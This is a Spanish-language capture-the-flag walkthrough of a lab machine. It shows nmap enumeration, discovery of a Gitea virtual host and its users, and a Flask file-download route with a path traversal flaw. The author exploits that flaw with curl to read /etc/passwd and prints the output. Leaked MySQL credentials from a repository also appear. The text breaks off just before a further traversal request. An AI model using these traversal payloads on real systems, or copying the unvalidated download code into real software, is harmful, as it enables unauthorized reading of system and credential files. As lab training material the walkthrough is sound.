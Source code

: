 ## FASE DE ENUMERACIÓN

Lanzamos un scaner con nmap para ver que puertos tiene abiertos la máquina victima y los servicios que cooren por ellos:
```bash
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 172.17.0.2 -oN PuertosYservicios  
```
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e5:9a:b5:5e:a7:fc:3b:2f:7e:62:dd:51:61:f5:aa:2e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJlX8HUpWECJWj9EBrcZdu7DR/IKU6sQIn2Rx8jrDxZGYYrXV7Su2UZ/wR8Y0Do26H/h0wW9p3hm6mGn5F5ZUOw=
|   256 8e:ff:03:d7:9b:72:10:c9:72:03:4d:b8:bb:77:e9:b2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHGFlZunFEFvg/diGF3I2AwlkL8QHCxO4Wjzp2KMNDJm
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Gitea: Git with a cup of tea
| http-methods: 
|_  Supported Methods: HEAD GET
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 8C971BC353008D67BA53965E12AE5A43
3000/tcp open  http    syn-ack ttl 64 Golang net/http server
|_http-title: Gitea: Git with a cup of tea
|_http-favicon: Unknown favicon MD5: F6E1A9128148EEAD9EFF823C540EF471
| http-methods: 
|_  Supported Methods: HEAD GET
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=d20d49b100a58736; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=uVFlDSwgUs5nVrqUzk7_t7o3mZE6MTc0MTE5MTcyMDYwMTA4ODM0NQ; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Wed, 05 Mar 2025 16:22:00 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" data-theme="gitea-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL2FkbWluLnMzY3IzdGRpci5kZXYuZ2l0ZWEuZGwvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9hZG1pbi5zM2NyM3RkaXIuZGV2LmdpdGVhLmRsL2Fzc2V0cy9pbWcvbG9nby5wbm

```
Tenemos un puerto 22 con SSH en versión no vulnerable, sin user ni pass lo dejamos de momento
Tenemos 2 servicos http, uno corre por el puerto 80 y otro por el 3000

abrimos en el navegador http://172.17.0.2 y buscamos algo en su código fuente y no encontramos nada.
abrimos en el navegado el http://172.17.0.2:3000 y buscamos en el código fuente, y encontramos esto:
```
</noscript>
	
	<meta property="og:title" content="Gitea: Git with a cup of tea">
	<meta property="og:type" content="website">
	<meta property="og:image" content="/assets/img/logo.png">
	<meta property="og:url" content="http://admin.s3cr3tdir.dev.gitea.dl/">
	<meta property="og:description" content="Gitea (Git with a cup of tea) is a painless self-hosted Git service written in Go">
```

vemos que se utiliza virtual hosting y nos da una direccion http://admin.s3cr3tdir.dev.gitea.dl/, abrimos el /etc/hosts y añadimos 
el subdominio y aprovechamos y metemos retroactivamente el resto quedando así:

```bash
172.17.0.2      admin.s3cr3tdir.dev.gitea.dl gitea.dl dev.gitea.dl s3cr3tdir.dev.gitea.dl
```
en el navegador nos vamos al subdominio mencionado y vemos una plantilla gitea, si añadimos en el buscado "/explore/users" podremos listar los usuarios:
```bash
http://admin.s3cr3tdir.dev.gitea.dl/explore/users
```
vemos dos users que apuntamos como posibles usuarios para el SSH:
-designer
-admin

El repositorio de admin está vacio, así que nos centramos en el del usuario designer, vamos a:
```
http://admin.s3cr3tdir.dev.gitea.dl/designer
```
vermos tres repositorios y nos centramos en el de "myapp"
```bash
http://admin.s3cr3tdir.dev.gitea.dl/designer/myapp/
```
vemos una app y antes de analizar vamos a mirar los commint:
```bash
http://admin.s3cr3tdir.dev.gitea.dl/designer/myapp/commits/branch/main
```
y vemos dos historicos, en este concretamente:
```bash
http://admin.s3cr3tdir.dev.gitea.dl/designer/myapp/commit/14a31ecee9376588ead735a51d9934db7983f2d3
```
vemos esto:
```
@app.route("/download", methods=["GET"])
def download():
    filename = request.args.get("filename")  # Se obtiene de la URL
    filename = request.args.get("filename")

    if not filename:
        flash("Se requiere un nombre de archivo", "danger")
        return redirect(url_for("index"))

    # **Vulnerabilidad**: No se valida el path, permitiendo Path Traversal
    file_path = os.path.join(app.config["UPLOAD_FOLDER"], filename)

    if os.path.exists(file_path):

```
parece ser que es vulnerable a path traversal, vamos a analizar un poco el código de la app:
```
from flask import Flask, request, render_template, send_file, redirect, url_for, flash
import os

app = Flask(__name__)
app.secret_key = "supersecretkey"

UPLOAD_FOLDER = "uploads"
if not os.path.exists(UPLOAD_FOLDER):
    os.makedirs(UPLOAD_FOLDER)

app.config["UPLOAD_FOLDER"] = UPLOAD_FOLDER


@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "POST":
        if "file" not in request.files:
            flash("No se ha seleccionado ningún archivo", "danger")
            return redirect(request.url)

        file = request.files["file"]

        if file.filename == "":
            flash("No se ha seleccionado ningún archivo", "danger")
            return redirect(request.url)

        file_path = os.path.join(app.config["UPLOAD_FOLDER"], file.filename)
        file.save(file_path)
        flash(f'Archivo "{file.filename}" subido correctamente.', "success")

    files = os.listdir(UPLOAD_FOLDER)
    return render_template("index.html", files=files)


@app.route("/download", methods=["GET"])
def download():
    filename = request.args.get("filename")

    if not filename:
        flash("Se requiere un nombre de archivo", "danger")
        return redirect(url_for("index"))

    file_path = os.path.join(app.config["UPLOAD_FOLDER"], filename)

    if os.path.exists(file_path):
        return send_file(file_path, as_attachment=True)

    flash("Archivo no encontrado", "danger")
    return redirect(url_for("index"))


if __name__ == "__main__":
    app.run(debug=True)
```
podemos ver una ruta llamada "/download" y un argumento "file" que probablemente nos ayude al pathtraversal, vamos a probarlo:
* Nota: probé con los subdominios hasta que me respondió gitea.dl
ponemos en el buscador:
```bash
http://gitea.dl/download?filename=../../../../../etc/passwd
```
y nos descarga un archivo dónde efectivamente está el /etc/passwd, pruebo con curl ya que no quiero mil archivos en mi máquina:
```bash
curl "http://gitea.dl/download?filename=../../../../../etc/passwd"
```
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
designer:x:1001:1001::/home/designer:/bin/bash
_galera:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:103:MariaDB Server,,,:/nonexistent:/bin/false
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
```
Después de trastear y no encontrar nada relevante me acuerdo de que había más proyectos e indago nuevamente en ellos,
uno que nos "puede" dar unas credenciales de mysql:
```
 <MYSQL_ROOT_PASSWORD>root123</MYSQL_ROOT_PASSWORD>
        <MYSQL_DATABASE>gitea</MYSQL_DATABASE>
        <MYSQL_USER>designer</MYSQL_USER>
        <MYSQL_PASSWORD>designer123</MYSQL_PASSWORD>
```
y otro que nos da unas rutas de gitea:
```
<volume>/home/designer/gitea:/data</volume>
            <volume>/home/designer/gitea:/data/info.txt</volume>
            <volume>/opt/"INFO_FILE"</volume>
        </volumes>
        <environment>
            <variable name="GITEA__database__DB_TYPE">sqlite3</variable>
            <variable name="GITEA__database__PATH">/data/gitea.db</variable>
```

En esta parte concretamente nos vamos a centrar, vemos "<volume>/home/designer/gitea:/data/info.txt</volume>" pues vamos a hacer una peticion curl con ep pathtraversal:
```bash
